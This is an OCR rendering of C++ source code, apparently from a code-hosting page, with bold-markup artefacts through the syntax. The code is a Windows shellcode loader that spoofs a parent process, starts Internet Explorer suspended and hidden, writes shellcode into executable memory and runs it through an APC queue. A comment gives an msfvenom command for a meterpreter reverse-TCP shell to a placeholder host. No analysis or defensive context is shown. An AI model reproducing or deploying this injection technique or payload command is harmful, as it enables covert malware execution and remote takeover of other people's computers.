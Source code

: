 
**int** main**()** **{**

```
*//Shellcode, for example; msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x EXITFUNC=thread -f c*

**unsigned** **char** shellCode**[]** **=** ""**;**



STARTUPINFOEXA sInfoEX**;**

PROCESS_INFORMATION pInfo**;**

SIZE_T sizeT**;**



HANDLE expHandle **=** OpenProcess **(** PROCESS_ALL_ACCESS**,** false**,** getParentProcessID**());**



ZeroMemory **(**  **&** sInfoEX**,**  **sizeof**  **(** STARTUPINFOEXA**));**

InitializeProcThreadAttributeList **(** NULL**,**  **1** **,**  **0** **,**  **&** sizeT**);**

sInfoEX **.** lpAttributeList **=**  **(** LPPROC_THREAD_ATTRIBUTE_LIST **)** HeapAlloc **(** GetProcessHeap**(),**  **0** **,** sizeT**);**

InitializeProcThreadAttributeList **(** sInfoEX **.** lpAttributeList**,**  **1** **,**  **0** **,**  **&** sizeT**);**

UpdateProcThreadAttribute **(** sInfoEX **.** lpAttributeList**,**  **0** **,** PROC_THREAD_ATTRIBUTE_PARENT_PROCESS**,**  **&** expHandle**,**  **sizeof**  **(** HANDLE**),** NULL**,** NULL**);**

sInfoEX **.** StartupInfo **.** cb **=**  **sizeof**  **(** STARTUPINFOEXA**);**



CreateProcessA **(** "C:\\Program Files\\internet explorer\\iexplore.exe"**,** NULL**,** NULL**,** NULL**,** TRUE**,** CREATE_SUSPENDED **|** CREATE_NO_WINDOW **|** EXTENDED_STARTUPINFO_PRESENT**,** NULL**,** NULL**,** reinterpret_cast **<** LPSTARTUPINFOA **>**  **(**  **&** sInfoEX**),**  **&** pInfo**);**



LPVOID lpBaseAddress **=**  **(** LPVOID **)** VirtualAllocEx **(** pInfo **.** hProcess**,** NULL**,**  **0x1000** **,** MEM_RESERVE **|** MEM_COMMIT**,** PAGE_EXECUTE_READWRITE**);**

SIZE_T  ***** lpNumberOfBytesWritten **=**  **0** **;**

BOOL resWPM **=** WriteProcessMemory **(** pInfo **.** hProcess**,** lpBaseAddress**,**  **(** LPVOID **)** shellCode**,**  **sizeof**  **(** shellCode**),** lpNumberOfBytesWritten**);**



QueueUserAPC **((** PAPCFUNC **)** lpBaseAddress**,** pInfo **.** hThread**,** NULL**);**

ResumeThread **(** pInfo **.** hThread**);**

CloseHandle **(** pInfo **.** hThread**);**


```